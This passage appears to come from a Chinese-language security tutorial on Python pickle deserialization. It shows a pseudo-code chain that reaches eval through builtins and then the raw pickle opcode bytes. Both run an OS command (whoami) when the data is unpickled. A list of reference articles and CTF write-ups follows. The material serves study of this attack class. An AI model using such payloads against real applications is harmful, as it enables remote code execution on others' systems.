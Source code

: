 
转化为 OBJ 的构造方式：
```py
getattr = GLOBAL('builtins', 'getattr')
dict = GLOBAL('builtins', 'dict')
dict_get = OBJ(getattr, dict, 'get')
globals = GLOBAL('builtins', 'globals')
builtins = OBJ(globals)
__builtins__ = OBJ(dict_get, builtins, '__builtins__')
eval = OBJ(getattr,__builtins__, 'eval')
return OBJ(eval,'__import__("os").system("whoami")')

b'cbuiltins\ngetattr\np0\n0cbuiltins\ndict\np1\n0(g0\ng1\nS\'get\'\nop2\n0cbuiltins\nglobals\np3\n0(g3\nop4\n0(g2\ng4\nS\'__builtins__\'\nop5\n0(g0\ng5\nS\'eval\'\nop6\n0(g6\nS\'__import__("os").system("whoami")\'\no.'
```



# 参考
- [pickle反序列化初探 - 先知社区](https://xz.aliyun.com/t/7436#toc-12)
- [Code-Breaking中的两个Python沙箱 - 离别歌](https://www.leavesongs.com/PENETRATION/code-breaking-2018-python-sandbox.html)
- [Python pickle 反序列化实例分析-安全客 - 安全资讯平台](https://www.anquanke.com/post/id/188981#h3-13)
- [ångstromCTF 2021 - Jar/Snake/Ekans - TJCSC](https://activities.tjhsst.edu/csc/writeups/angstromctf-2021-pickle)
- [最近碰到的 Python pickle 反序列化小总结 - 先知社区](https://xz.aliyun.com/t/11807#toc-4)
- [浅析python反序列化 - 先知社区](https://xz.aliyun.com/t/12367#toc-7)